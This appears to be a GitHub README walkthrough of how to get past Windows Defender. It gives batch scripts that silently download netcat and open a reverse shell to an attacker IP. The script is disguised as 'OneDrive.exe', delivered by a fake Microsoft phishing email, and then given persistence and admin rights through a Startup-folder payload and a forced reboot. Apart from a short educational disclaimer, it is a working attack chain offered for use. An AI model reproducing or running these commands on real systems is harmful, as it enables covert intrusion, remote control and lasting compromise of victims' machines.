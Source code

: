 # Bypassing-Windows-Defender-for-fun
![816nvu](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/1b9865a9-73c4-4e63-b1bf-bc5d62f79fa1)


# Disclaimer:

This presentation is intended solely for educational purposes to increase awareness about phishing attacks and cybersecurity threats. The techniques demonstrated are to help you recognize and defend against potential threats. By attending this presentation, you acknowledge that any misuse or illegal use of this information is strictly prohibited and is not endorsed. The presenter bears no responsibility for any such misuse.

# Credits:
-Senouy

# Introduction:
In this demo I am taking advantage of simple things, casual softwares intended for ethical use cases and I shape them to be dangerous assets to hack our way in a Windows machine protected by MS Defender.
Let’s take a look at the script we are using.

`@echo off
call getCmdPid
call windowMode -pid %errorlevel% -mode hidden & curl https://raw.githubusercontent.com/int0x33/nc.exe/master/nc64.exe -o C:\Users\Public\Downloads\nc64.exe & C:\Users\Public\Downloads\nc64.exe -e cmd.exe 10.0.5.29 9999`

What the script does :

`@echo off` is a standard directive in batch files (.bat) in Windows, and it serves a similar purpose to #!/bin/bash in Linux shell scripts. Its job is to not show the commands that are being ran.

`getCmdPid.exe` is responsible for printing the PID number of the windows process we are using.

`call windowMode -pid %errorlevel% -mode hidden` now we pass the pid number of the cmd prompt we are currently on to the windowmode.exe and hiding any potential errors.

`the rest of the script` downloads netcat (a remote control tool) and outputs it to a set folder, in this case C:\Users\Public\Downloads and then runs it with the parameter –e to connect to our listening machine 10.0.5.29 through the port 9999.

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/1188ce4d-34c9-4d61-91d8-227485c9936f)

We then use bat-to-exe-converter to convert/build our batch file to an exetuable file.

#things to change:

-import an icon to be set as the final exe’s icon.

-change exe format to 64-bit | Windows (invisible) ///This makes the exe run without triggereing the cmd.exe prompt to show.

Note: You can check the Request admin privileges box to make the final exe request admin privs to run.

The result : `OneDrive.exe`

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/b7ad88d4-6deb-4172-ba11-3c0bdd222b42)
![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/0b346d79-4c03-43c2-89e7-9b26a173581a)

I’ve crafted a fake email using some sentences that official Microsoft teams use in their texts and used a fake Microsoft account to make it look more authentic. You can find the email here https://pastebin.com/XFrn4Z4w

Now, onto a Windows machine, the first test subject is Windows 10 version 2004. This version of Windows 10 was released back on May 27, 2020, so it's not that old.

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/ada32d5b-c710-49ea-8af3-7aa7ee082902)

We now start our listner on the 9999 port and proceed to run the OneDrive.xe on the Windows machine.

`$nc –lnvp 9999`

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/1a8c2498-7425-4b33-98c6-13d4da3b55cc)

After the victim has ran our malicious file, we get a reverse shell. Meaning we can control his computer and all sorts of thing including removing/creating folders and files acccessing every path we want. But there are some limitations. As you can see we are logged in as the user so that means we only have the user privileges and we need to gain Administrator rights in order to have all the rights and permissions available on the system.

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/c7ed7d38-e6f4-47af-bc33-32df0b67dd2d)

# Privilege Escalation and Persistence :

On this phase I’ve prepared a script that will help us gain a reverse shell with admin privileges and in any case we lose access to the machine or our shell breaks. No worries we’ll get another one once the victim machine has restarted.
The script is as follows :

`@echo off
C:\Users\Public\Downloads\nc64.exe -e cmd.exe 10.0.5.29 9999`

-I used the bat-to-exe-converter to convert/build this batch script to an exetuable file and named it `startup.exe`.

The first step is to transfer our exe to the victim machine. So to do that I started a simple http server where my startup.exe is located. To do that use the following command:

`$python3 –m http.server 80`

On the victim machine change directory to `C:\Users\Public\Downloads\` . Then download the script and move it to the `startup applications folder` using these commands :

`$curl –o startup.exe http://10.0.5.29/startup3.exe`

`$copy "C:\Users\Public\Downloads\startup.exe" "%appdata%\Microsoft\Windows\Start Menu\Programs\Startup\"`

![image](https://github.com/S3nouy/Bypassing-Windows-Defender-for-fun/assets/77050462/1d65e504-d7f3-4b5c-b86a-c80e91b90035)

Finally you can send a command to reboot the machine ‘’shutdown –r –t 0’’ or wait for the victim user to reboot it and you’ll get a shell again but this time you’ll have admin rights.

TIP: Don’t forget to start your listener again.

# Conclusion :

This attack has succeeded in both Windows 10 version 2004 and the latet Windows 10 2023 at the time doing this experiment.

I hope you all enjoyed this walkthrough and had fun discovering what can casual tools we use and some scripting knowledge can do.


